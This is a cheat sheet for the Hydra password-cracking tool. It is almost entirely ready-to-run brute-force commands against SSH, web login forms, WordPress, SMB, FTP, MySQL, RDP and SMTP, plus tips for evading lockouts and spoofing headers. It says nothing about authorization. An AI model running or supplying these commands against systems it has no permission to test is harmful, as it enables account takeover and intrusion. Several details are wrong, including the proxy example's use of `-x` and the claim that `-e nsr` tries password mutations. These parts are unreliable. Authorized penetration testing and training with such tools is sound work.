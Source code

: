 # Hydra Cheat Sheet  
*Fast Network Login Cracker for Brute-Forcing Protocols*  

---

## **1. Core Concepts**  
- **Hydra**: Parallelized login cracker supporting 50+ protocols (SSH, HTTP, SMB, etc.).  
- **Service Module**: Protocol-specific rules for authentication (e.g., `ssh`, `http-post-form`).  
- **Wordlists**: Files like `rockyou.txt` or `SecLists` for usernames/passwords.  
- **Brute-Force**: Testing credential combinations systematically.  

---

## **2. Basic Syntax**  
```bash  
hydra [options] <IP> <service-module> [module-specific-parameters]  
```  

---

## **3. Essential Flags**  
| **Flag**          | **Description**                                      |  
|--------------------|------------------------------------------------------|  
| `-l <user>`       | Single username (e.g., `-l admin`)                   |  
| `-L <file>`       | Username wordlist (e.g., `-L users.txt`)             |  
| `-p <pass>`       | Single password (e.g., `-p Password123`)             |  
| `-P <file>`       | Password wordlist (e.g., `-P passwords.txt`)         |  
| `-s <port>`       | Custom port (e.g., `-s 8080` for non-standard HTTP)  |  
| `-t <threads>`    | Parallel tasks (default: 16; max: 64)                |  
| `-v` / `-V`       | Verbose mode (`-V` for real-time output)             |  
| `-f`              | Stop after first valid login                         |  
| `-e nsr`          | Test `n` (null), `s` (same as user), `r` (reverse)   |  
| `-w <sec>`        | Wait time between attempts (e.g., `-w 5`)            |  
| `-W <sec>`        | Per-host delay (e.g., `-W 2` to avoid lockouts)      |  
| `-R`              | Restore a previous session                           |  
| `-x <min:max:chars>` | Brute-force mode (e.g., `-x 6:8:a1d` for 6-8 chars) |  

---

## **4. Service Modules & Examples**  
*Format*: `<protocol>`: `[module-specific parameters]`  

**Common service modules:**  
- **SSH**: `ssh`  
- **FTP**: `ftp`  
- **HTTP Forms**: `http[s]-{get|post}-form`  
- **SMB**: `smb`  
- **MySQL**: `mysql`  
- **RDP**: `rdp`  
- **SMTP**: `smtp`  
- **WordPress**: `http-form-post` (custom module)  

### **SSH**  
**Module**: `ssh`  
```bash  
hydra -L users.txt -P passwords.txt 10.10.10.10 ssh -s 22 -t 64  
```  
**Notes**:  
- Use `-t` to increase threads for faster cracking.  

---

### **HTTP Form Login**  
**Module**: `http[s]-post-form`  
**Syntax**:  
```  
"/path:POST-data:F=Failure-string:S=Success-string"  
```  
**Example**:  
```bash  
hydra 10.10.10.10 http-post-form \  
"/login.php:user=^USER^&pass=^PASS^:F=Invalid credentials" -L users.txt -P passwords.txt  
```  
**Notes**:  
- Use `:S=` to match success criteria (e.g., `S=302` for redirects).  
- Add headers with `-H "Cookie: session=xyz"`.  

---

### **SMB (Windows Shares)**  
**Module**: `smb`  
```bash  
hydra -L users.txt -P passwords.txt 10.10.10.10 smb -W 3  
```  
**Notes**:  
- Target specific shares: `smb://WORKGROUP\\C$`.  

---

### **FTP**  
**Module**: `ftp`  
```bash  
hydra -L users.txt -P passwords.txt ftp://10.10.10.10 -s 21 -V  
```  
**Anonymous Access**:  
```bash  
hydra -l anonymous -P "" ftp://10.10.10.10  
```  

---

### **MySQL**  
**Module**: `mysql`  
```bash  
hydra -L users.txt -P passwords.txt 10.10.10.10 mysql -t 32  
```  

---

### **RDP (Remote Desktop)**  
**Module**: `rdp`  
```bash  
hydra -L users.txt -P passwords.txt rdp://10.10.10.10 -V  
```  

---

### **SMTP**  
**Module**: `smtp`  
**Brute-force**:  
```bash  
hydra -L users.txt -P passwords.txt smtp://10.10.10.10  
```  
**Verify Emails (VRFY)**:  
```bash  
hydra -L users.txt smtp-vrfy://10.10.10.10  
```  

---

### **WordPress**  
**Module**: `http-form-post` (custom)  
```bash  
hydra -l admin -P rockyou.txt 10.10.10.10 http-form-post \  
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"  
```  

---

## **5. Advanced Techniques**  

### **Custom Headers & Proxies**  
```bash  
hydra -l admin -P passwords.txt 10.10.10.10 http-post-form \  
"/login:user=^USER^&pass=^PASS^:F=error" -H "X-Forwarded-For: 127.0.0.1" -x http://proxy:8080  
```  

### **Password Mutations**  
Test variations like `admin123` or `Admin123`:  
```bash  
hydra -l admin -P passwords.txt -e nsr 10.10.10.10 ssh  
```  

### **Resume Sessions**  
```bash  
hydra -R  
```  

---

## **6. Optimization & Safety**  

### **Avoid Lockouts**  
- Use `-w` and `-W` for delays:  
  ```bash  
  hydra -l admin -P passwords.txt -w 5 -W 2 10.10.10.10 ssh  
  ```  

### **Performance**  
- Increase threads: `-t 64`.  
- Use smaller, targeted wordlists first.  

### **Wordlists**  
```bash  
git clone https://github.com/danielmiessler/SecLists  # Comprehensive wordlists  
```  

---

## **7. Troubleshooting**  

| **Issue**                | **Solution**                                      |  
|--------------------------|---------------------------------------------------|  
| "Too many connections"   | Reduce threads (`-t 16`), add delays (`-w`/`-W`). |  
| "Invalid module"         | Check protocol syntax (e.g., `http-post-form`).   |  
| No results               | Verify failure strings match responses.           |  

---

## **9. References**  
- **Hydra GitHub**: https://github.com/vanhauser-thc/thc-hydra  
- **SecLists**: https://github.com/danielmiessler/SecLists  
